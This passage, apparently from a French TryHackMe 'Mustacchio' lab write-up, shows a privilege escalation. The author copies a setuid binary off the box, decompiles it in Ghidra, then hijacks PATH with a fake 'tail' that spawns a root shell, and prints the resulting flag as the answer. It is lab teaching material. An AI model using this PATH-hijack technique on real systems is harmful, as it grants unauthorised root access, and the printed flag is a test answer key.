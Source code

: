 On regarde les fichiers setuid nous avons un fichier personnel live dans l'utilisateur joe.   

```bash
barry@mustacchio:~$ cd /home/joe
barry@mustacchio:/home/joe$ cp live_log /tmp
tim@kali:~/Bureau/tryhackme$ scp -i id_key barry@mustacchio.thm:/home/joe/live_log ./

Enter passphrase for key 'id_key': 
live_log            
```

On récupère le fichier pour analyse.  

![page9](./Task01-9.png)   

On décompile de fichier avec ghidra.   
On voit que programme exécute avec les droits administrateur la commande tail sur un fichier access.log.  

On va détourner le chemin de fichier tail.   

```bash
barry@mustacchio:/tmp$ echo '/bin/bash' > tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ chmod +x tail 
barry@mustacchio:/tmp$ /home/joe/live_log 
root@mustacchio:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)

root@mustacchio:/tmp# cat /root/root.txt
3223581420d906c4dd1a5f9b530393a5
```

On crée un faux fichier tail qui va exécuter un shell.   
On modifie la variable PATH pour l'os cherche en premier non faux tail.   
On rend exécutable notre faut fichier.  
On exécute live_log, notre faux fichier hérite des droits root.
On a un shell avec les droits root.   
On lit le fichier qui contient le flag.   

La réponse est : 3223581420d906c4dd1a5f9b530393a5    